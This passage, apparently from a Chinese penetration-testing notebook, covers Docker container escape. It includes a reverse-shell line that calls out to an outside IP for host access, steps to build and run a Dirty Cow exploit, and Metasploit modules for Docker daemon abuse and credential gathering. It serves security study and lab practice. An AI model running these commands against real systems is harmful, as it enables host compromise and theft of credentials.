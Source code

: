 此时等管理员进入容器将触发：

```bash
docker exec -it name /bin/bash
```

或者将POC中的获取/etc/shadow改为反弹Shell,将第16行改为反弹Shell，获得宿主机权限。

```text
bash -i >& /dev/tcp/123.123.123.123/8080 0>& 1
```

![](../../.gitbook/assets/image%20%28572%29.png)

### Dirty Cow（CVE-2016-5195）

漏洞能否利用成功，主要是看宿主机内核版本，较高无法成功。  
漏洞EXP

```text
https://github.com/scumjr/dirtycow-vdso
cd /dirtycow-vdso/
make
./0xdeadbeef
```

在线漏洞环境、说明：  
[https://www.ichunqiu.com/experiment/detail?id=100297&source=2](https://wohin.me/yun-yuan-sheng-huan-jing-shen-tou-xiang-guan-gong-ju-kao-cha/)

## Other相关内容

Clair  
容器漏洞静态分析  
[https://github.com/quay/clair](https://github.com/quay/clair)

安全防护工具之：Clair\_知行合一  
[https://blog.csdn.net/liumiaocn/article/details/76697022](https://blog.csdn.net/liumiaocn/article/details/76697022)  
通过对容器的layer扫描，发现漏洞并进行预警。

{% tabs %}
{% tab title="Metasploit模块" %}
```bash
# 判断目标环境是否为Docker
post/linux/gather/checkcontainer

# 查看Docker版本
auxiliary/scanner/http/docker_version

# 利用daemon执行命令，需要Daemon远程访问。
exploit/linux/http/docker_daemon_tcp

# docker socket容器逃逸
exploit/linux/local/docker_daemon_privilege_escalation

# 检测目标环境中各种漏洞缓解机制是否开启
post/linux/gather/enum_protections

# 解析获得认证凭据
post/multi/gather/docker_creds
```